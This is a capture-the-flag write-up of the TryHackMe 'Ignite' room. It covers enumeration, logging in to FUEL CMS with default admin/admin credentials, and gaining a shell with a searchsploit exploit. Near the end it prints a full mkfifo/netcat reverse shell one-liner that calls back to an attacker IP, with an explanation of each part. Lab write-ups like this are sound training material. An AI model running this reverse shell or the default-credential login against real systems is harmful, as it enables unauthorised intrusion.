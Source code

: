 ```yaml
---
title: TryHackMe - Ignite
author: Bonface
date: 2024-02-14 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - http
  - gobuster
  - searchsploit
image:
  path: /assets/img/try_hack_me/Easy/Ignite/0.png
  alt: Ignite
---
```


# Ignite

A new start-up has a few issues with their web server.  

# Tasks
Read User.txt and Root.txt  

# nmap
## ip `10.10.48.179`

## Command 
```sh
nmap -sV -sC -A -v 10.10.48.179
```
## Results

```sh
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  


## gobuster

```sh
gobuster dir -u http://10.10.48.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](../assets/img/try_hack_me/Easy/Ignite/1.png)

## The site
Visiting the site i get a welcome page.  
![](../assets/img/try_hack_me/Easy/Ignite/2.png)

In the welcome page we are redirected to another directory 
	`http://$ip/fuel`  
![](../assets/img/try_hack_me/Easy/Ignite/3.png)  
![](../assets/img/try_hack_me/Easy/Ignite/4.png)

login details:  
user name `admin`  
password  `admin`

![](../assets/img/try_hack_me/Easy/Ignite/5.png)

Now we look for a vector point where we can enumerate and get something to work with.  


Navigating to `assets/upload`  
![](../assets/img/try_hack_me/Easy/Ignite/6.png)

Here we can connect a reverse shell if possible but its worth a try.  
So i got a reverse shell.php.

Then uploaded it.  
But kept on receiving some errors so resulted to finding other means.  

# searchsploit

## Command 
```sh
	 searchsploit fuel
```
![](../assets/img/try_hack_me/Easy/Ignite/7.png)

Downloaded the exploit to my machine.  
```sh
	searchsploit -m 47138.py
```
![](../assets/img/try_hack_me/Easy/Ignite/8.png)

Tried modifying the exploit but no luck.  
Not sure how to go about this ???  


But after some research i got the shell.  
This is after removing some default lines on the code.  

```sh
nc -nlvp 1337
```
![](../assets/img/try_hack_me/Easy/Ignite/9.png)


- Now that we have our local listener set up we can use netcat on the remote target to push a shell back to us.  
- To do this we need to chain a few different commands together, it can be a little confusing but we are going to break it up and explain each component.  

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f
```
- `rm /tmp/f ;` removes any pre-existing directory called `/tmp/f`, the semicolon ends the command similar to hitting the ENTER key.  
- `mkfifo /tmp/f ;` creates a named pipe at the location `/tmp/f`, semicolon ends the command  
- `cat /tmp/f |` displays the contents of `/tmp/f` and pipes the results into the next command  
- `/bin/sh -i 2>&1 | ` invokes the default shell binary, the ‘-i’ tells it to use interactive mode, redirect stderr2 to the same destination as stdout1, and pipe that to the next command.  
- `nc 10.8.6.159 1337 >/tmp/f ` tell netcat to connect to the remote IP and PORT and redirect that output to the named pipe  
Here is a link to a site that may help with understanding the commands [explain shell](https://explainshell.com/explain?cmd=rm+%2Ftmp%2Ff+%3B+mkfifo+%2Ftmp%2Ff+%3B+cat+%2Ftmp%2Ff+%7C+%2Fbin%2Fsh+-i+2%3E%261+%7C+nc+10.8.6.159+1337+%3E%2Ftmp%2Ff)



